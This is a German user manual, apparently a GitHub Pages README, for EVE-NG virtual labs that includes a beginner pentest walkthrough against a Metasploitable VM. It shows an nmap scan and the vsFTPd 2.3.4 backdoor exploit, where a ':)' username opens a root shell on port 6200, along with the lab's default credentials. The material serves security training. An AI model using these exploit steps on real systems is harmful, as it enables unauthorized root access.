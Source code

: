 ## Benutzerhandbuch für Virtuelle Labs 

Dies ist das offizielle Benutzerhandbuch für das erstellen und importieren von virtuellen EVE-NG Labs. Außerdem wird hier erklärt, wie man einen Penetrationstest anhand eines Beispiel mit Metasploit durchführt.

### Vorbereitungen treffen

Auf dem Pentesting Computer läuft die Linux Distribution Kali Linux. Über den Browser navigiert man auf die EVE-NG Instanz. Folgende Daten sind wichtig für die weitere Nutzung:

**EVE-NG Zugangsinformationen:**
* IP-Adresse: 10.0.0.200
* Eingabe mittels https://10.0.0.200
* Nutzername: admin
* Passwort: eve

**Pentesting Computer Zugangsinformationen:**
* Nutzername: pentester
* Passwort: hacking

Außerdem sollte eine Netzwerkverbindung bestehen. Eine Netzwerkkonfiguration bekommt man für gewöhnlich über den Router mittels DHCP. Sollte das nicht funktionieren, fragen Sie den Netzwerkadministrator, oder vergeben Sie eine statische IP-Adresse!

### Die EVE-NG Benutzeroberfläche

Die EVE-NG Benutzeroberfläche besteht im wesentlichen sehr schlicht und simpel aufgebaut. Auf der unteren Leiste, sieht man gängige Operationen für die virtuellen Labs. Es können virtuelle Labs erstellt, importiert und gelöscht werden. Zudem kann man auch die Ansicht Aktualisieren.

![Eve-NG Übersicht](docs/assets/eve-ng-overview.png)

### Was es sonst noch zu beachten gibt

Damit mehrere gleichzeitig mit eigenen Labs oder auch gemeinsam an einem Lab arbeiten können, muss ein neuer Nutzer angelegt werden. Dazu geht man in dem Bereich *Management > Usermanagement* und legt dort entsprechend einen neuen Nutzer an

![Nutzer anlegen](docs/assets/create-user.png)

Erforderliche Daten:
* User Name
* Password
* Password Confirmation
* POD 

### Starterkit - Beispiel fürs Hacken von Diensten und Computern

Im folgenden Szenario wird ein Beispiel gezeigt, wie man virtuelle Labs für Penetrationstests nutzen kann. Hier wird ein fertiges bereits erstelles Lab genutzt um den Einstieg dementsprechend zu vereinfachen. Natürlich kann man auch für später ein eigenes Lab erstellen. Das ist ja nämlich der Sinn des ganzen.

#### Fertiges vLab benutzen

1. Virtuelles Lab importieren

Dazu geht man unter das Symbol *Hochladen* was für Importieren steht. Danach öffnet sich ein Dialogfenster mit der Aufforderung eine Datei auszuwählen. Eine ZIP-Datei:

![Lab importieren](docs/assets/lab-import.png)

2. ZIP Datei upload durchführen

Dann ist noch ein Upload Schritt notwendig, der die Datei in den Transit befördert :) Dazu geht man oben rechts auf Upload:

![Lab Upload](docs/assets/lab-upload.png)

3. Öffnen des Labs

Mit einem Klick auf das vLab erscheint ein Informationsfenster. Unter den Metadaten steht dann *Open*. Nach einem Klick gelangt man in das virtuelle Labor:


![Lab Open](docs/assets/lab-open.png)

#### Übersicht des Pentesting Szenarios

Im folgenden sieht man das Pentesting Szenario, welches bereits vorbereitet wurde. Darin erkennt man eine Cisco ASA Firewall, einen Cisco Switch, eine Kali Linux Maschine und ein anfälliges Gerät mit Schwachstellen. Dieser anfällige Computer ist ein sogenanntes Metasploitable. Das ist perfekt für das Kennenlernen von Hackingabläufen. Vor allem für Einsteiger:

![Lab Übersicht](docs/assets/lab-overview.png)

1. Virtuelle Maschinen einschalten

Die Netzwerkgeräte und Maschinen müssen erst angeschaltet werden. Dazu markiert man alle Geräte im Szenario und aktiviert diese über einen Rechtsklick auf ein leeres Feld:


![Start Geräte](docs/assets/start-selected-devs.png)

#### Beispiel Szenario - vsFTPd exploit

Auf dem Metasploitable läuft auf dem Port 21 eine vsFTPd Version, die eine Backdoor eingebaut hat. Diese Backdoor wurde von einem unbekannten Eindringling eingebaut.

1. Kali Linux Terminal öffnen

Mit einem Doppelklick auf die Kali Linux Maschine öffnet sich ein neues Fenster mit oder Oberfläche des Gerätes. Nach einloggen in Kali Linux gelangt man auf einem Linux Homebildschirm. Darauf einfach den Terminal starten.

In diesem Beispiel gehen wir davon aus, dass folgende IP-Adressen vergeben sind:
* Kali: 10.0.0.22
* Metasploitable 10.0.0.30

Die IP-Adressen werden bei dir sicherlich anders sein. Dazu kann man einfach mit diesem Befehl die IP-Adresse von der Maschine anzeigen lassen:

```bash
ip addr
```

2. Ports von Metasploitable scannen

Mithilfe von NMAP können alle offenen Ports gescannt werden. Dazu kann einfach die ganze Range angegeben werden:

```bash
root@kali:/tmp# nmap -p0-65535 10.0.0.30

Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2022-03-07 21:14 ETC
Nmap scan report for 10.0.0.30 
Host is up (0.00028s latency).
Not shown: 65506 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
512/tcp   open  exec
513/tcp   open  login
514/tcp   open  shell
1099/tcp  open  rmiregistry
1524/tcp  open  ingreslock
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
3306/tcp  open  mysql
3632/tcp  open  distccd
5432/tcp  open  postgresql
5900/tcp  open  vnc
6000/tcp  open  X11
6667/tcp  open  irc
6697/tcp  open  unknown
8009/tcp  open  ajp13
8180/tcp  open  unknown
8787/tcp  open  unknown
39292/tcp open  unknown
43729/tcp open  unknown
44813/tcp open  unknown
55852/tcp open  unknown
```

Im folgenden Output von NMAP kann man also sehen, dass der FTP Port 21 offen ist. Bei Metasploit handelt es sich hier um eine modifizierte Version mit einer Backdoor die wir exploiten können.

3. FTP Backdoor ausnutzen

Mithilfe von Telnet können wir folgendes eingeben um eine Root Shell zu bekommen:

```bash
root@kali:/tmp# telnet 10.0.0.30 21
Trying 10.0.0.30...
Connected to 10.0.0.30.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
user backdoored:)
331 Please specify the password.
pass invalid
^]
telnet> quit
Connection closed.
```

Was ist hier nun passiert? Also die Backdoor kann man so ausnutzen, indem man sich auf den FTP Port über Telnet connected. Dabei wird auch gleich die Version direkt angezeigt. Danach kommt keine Aufforderung mehr und wir können wir Code in die CLI Injecten. Wenn wir nämlich ":)" angeben, wird automatisch ein neuer Port geöffnet nämlich Port 6200. Dieser gibt uns eine versteckte Rootshell:


```bash
                       
root@kali:/tmp# telnet 10.0.0.30 6200
Trying 10.0.0.30...
Connected to 10.0.0.30.
Escape character is '^]'.
id;
uid=0(root) gid=0(root)
```

### Fazit 

Das waren natürlich jetzt nur ein paar Beispiele. Natürlich gibt es noch viel mehr, was man mit Metasploitable anstellen kann. Unter folgendem Link kann man sich weiter einlesen in alle Schwachstellen, Backdoors und verfügbare Exploits, in Form von Code Injections und Python bzw. Bash oder auch C Scripts.


[metasploitable walkthroughs](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide). 

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/MrInfusion/benutzerhandbuch-nutzung-virtueller-labs/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support oder Kontakt

Habt ihr noch Fragen oder irgendwelche Probleme? Dann könnt ihr euch an die Netzwerkadministratoren wenden.